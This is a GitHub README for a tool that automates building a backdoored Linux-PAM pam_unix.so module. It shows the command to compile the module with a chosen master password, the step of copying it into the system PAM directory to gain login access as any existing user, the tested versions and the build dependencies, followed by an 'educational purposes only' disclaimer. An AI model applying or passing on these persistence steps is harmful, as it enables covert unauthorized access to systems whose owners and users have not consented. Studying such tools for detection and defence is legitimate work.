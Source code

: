 # linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage
To generate the backdoored pam_unix.so, just run:
```
./backdoor.sh -v 1.5.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host. 

```
cp pam_unix.so /usr/lib/security/
```

That's all. 

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only.
I am not responsible for the damage you might cause.

## Dependencies 

Tested with Ubuntu 21.10:
* 1.3.0 (And older version): Doesn't compile
* 1.4.0: Compiled successfully & Worked
* 1.5.0: Compiled successfully & Worked

The following packages where used
```bash
apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```
